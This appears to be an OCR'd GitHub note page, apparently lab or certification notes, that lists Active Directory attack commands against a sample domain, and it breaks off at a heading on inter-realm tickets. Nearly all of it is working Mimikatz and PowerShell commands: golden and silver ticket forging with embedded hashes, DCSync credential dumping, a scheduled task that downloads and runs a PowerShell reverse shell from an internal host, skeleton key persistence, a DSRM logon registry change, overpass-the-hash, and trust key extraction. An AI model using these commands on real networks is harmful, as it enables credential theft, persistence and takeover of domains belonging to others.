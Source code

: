 ### Kerberos Golden Ticket

- Invoke-Mimikatz -Command '"kerberos ::golden /User:Administrator /domain:ind.ycsccorp.local /sid:S-1-5-21-2459409151-1819855402-4290146463 /krbtgt:c8245073e958a34be21246fad7bb5981 /id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'

### DCSync

- Invoke-Mimikatz -Command '"lsadump::dcsync /user:ind\krbtgt"'

### Silver Ticket (obtain shell using Scheduled tasks)

- Invoke-Mimikatz -Command '"kerberos::golden /domain:ind.ycsccorp.local /sid:S-1-5-21-2459409151-1819855402-4290146463 /target:ycsc-ind-dc.ind.ycsccorp.local /service:CIFS /rc4:6f5b5acaf7433b3282ac22e21e62ff22 /user:Administrator /ptt"'

- schtasks /create /S ycsc-ind-dc.ind.ycsccorp.local /SC Weekly /RU "NT Authority\SYSTEM" /TN "STCheck5" /TR "p
owershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://192.168.3.15:8080/Invoke-PowerShellTcp2.ps1''')'"

- schtasks /Run /S ycsc-ind-dc.ind.ycsccorp.local /TN STCheck5

### Access via WMI (needs HOST and RPCSS silver tickets and WMI remote access to be allowed for Application Packages)

- Get-WmiObject Win32_OperatingSystem -ComputerName ycsc-ind-dc.ind.ycsccorp.local

### Skeleton Key attack (requires DA privileges, sets master password (sort of) to mimikatz for every user account)

- Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"' -ComputerName ycsc-ind-dc.ind.ycsccorp.local

### DSRM

- Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"' -Computername ycsc-ind-dc

- Set registry to change DSRM logon behaviour (use Enter-PSSession first): New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa" -Name "DsrmAdminLogonBehavior" -Value 2 -PropertyType DWORD

- Over pass the hash: Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator /domain:ycsc-ind-dc /ntlm:e19ccf75ee54e06b06a5907af13cef42 /run:powershell.exe"'

- Can list files using ls \\ycsc-ind-dc\c$

## Enterprise Admin Escalation (via trust ticket)

### Get Trust key

- Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName ycsc-ind-dc

- Invoke-Mimikatz -Command '"lsadump::dcsync /user:ind\ycsccorp$"'

### Generate inter-realm ticket
